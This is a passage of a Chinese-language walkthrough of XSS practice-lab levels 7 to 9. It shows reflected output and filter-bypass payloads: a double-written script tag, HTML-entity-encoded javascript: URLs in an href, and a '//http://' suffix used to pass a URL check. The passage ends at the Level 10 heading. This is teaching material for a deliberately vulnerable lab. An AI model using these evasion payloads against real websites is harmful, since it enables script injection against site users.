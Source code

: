 返回：

```html
<input name=keyword  value="<script>alert('xss');</script>">
```

说明双写能成功绕过，把前面闭合一下即可。

```html
"><scrscriptipt>alert('xss');</scrscriptipt>
```

## Level 8

有点新意了，把输入的东西放到了a元素的href属性里。

测试payload：

```html
javascript:alert()
```

点击发现没有弹，看源代码：

```html
<a href="javascr_ipt:alert()">友情链接</a>
```

把`javascript`换成了`javascr_ipt`，手动编码一下即可：

```html
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

点击友链即可过。

## Level 9

测试Payload直接提示不合法了。

输入一个正确的URL可以被解析到DOM里，尝试在URL前面加点东西，发现还是可以：

```html
javascript:alert(1);//http://baidu.com
```

返回：

```html
<a href="javascr_ipt:alert(1);//http://baidu.com">友情链接</a>
```

参考上面，把JS处编码绕过即可：

```html
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;;//http://baidu.com
```

## Level 10
